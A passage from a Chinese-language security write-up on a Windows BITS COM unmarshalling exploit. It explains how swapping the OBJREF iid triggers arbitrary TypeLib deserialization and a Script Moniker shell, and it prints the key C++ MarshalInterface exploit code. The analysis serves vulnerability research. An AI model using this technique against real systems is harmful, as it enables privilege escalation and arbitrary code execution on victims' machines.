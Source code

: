 ```
        struct            `{`
            CLSID           clsid;
            unsigned long   cbExtension;
            unsigned long   size;
            ULONGLONG pData;
        `}` u_custom;
    `}` u_objref;
`}` OBJREF;
```

这里flags为OBJREF_STANDARD(0x01),表示使用标准Unmarshal方式(CStdMarshal),对应的下方联合体的是STDOBJREF,至于其他flags类型均有自定义的unmarshal方式,不在本文的讨论范围,请读者自行研究.而最终导致实现漏洞利用的是其中的iid字段,通过逆向研究发现替换这个iid(也就是oleview中找到的接口IID_Interface)就可以触发bits服务加载这个iid对应com组件对象的TypeLib(类型库),也就是说任意TypeLib反序列化.最终替换TypeLib文件构造为嵌套的TypeLib结构就可以运行Script Moniker来GetShell.这里附上漏洞利用关键代码:

```
virtual HRESULT STDMETHODCALLTYPE MarshalInterface(
        /* [annotation][unique][in] */
        _In_  IStream *pStm,
        /* [annotation][in] */
        _In_  REFIID riid,
        /* [annotation][unique][in] */
        _In_opt_  void *pv,
        /* [annotation][in] */
        _In_  DWORD dwDestContext,
        /* [annotation][unique][in] */
        _Reserved_  void *pvDestContext,
        /* [annotation][in] */
        _In_  DWORD mshlflags)
    `{`
        IStorage* stg;
        ILockBytes* lb;
        CreateILockBytesOnHGlobal(nullptr, TRUE, &amp;lb);
        StgCreateDocfileOnILockBytes(lb, STGM_CREATE | STGM_READWRITE | STGM_SHARE_EXCLUSIVE, 0, &amp;stg);
        ULONG cbRead;
        ULONG cbWrite;
        IStreamPtr pStream = nullptr;
        HRESULT hr = CreateStreamOnHGlobal(0, TRUE, &amp;pStream);
        LARGE_INTEGER dlibMove = `{` 0 `}`;
        ULARGE_INTEGER plibNewPosition;
        hr = CoMarshalInterface(pStream, IID_IUnknown, static_cast&lt;IUnknownPtr&gt;(stg), dwDestContext, pvDestContext, mshlflags);
        OBJREF* headerObjRef = (OBJREF*)malloc(1000);
        hr = pStream-&gt;Seek(dlibMove, STREAM_SEEK_SET, &amp;plibNewPosition);
        hr = pStream-&gt;Read(headerObjRef, 1000, &amp;cbRead);
        printf("[+]MarshalInterface: %ls %pn", IIDToBSTR(IID_InterfaceFake).GetBSTR(), this);
        //IID_InterfaceFake就是找到的接口IID_Interface
        headerObjRef-&gt;iid = IID_InterfaceFake;
        hr = pStm-&gt;Write(headerObjRef, cbRead, &amp;cbWrite);
        return hr;

    `}`
```
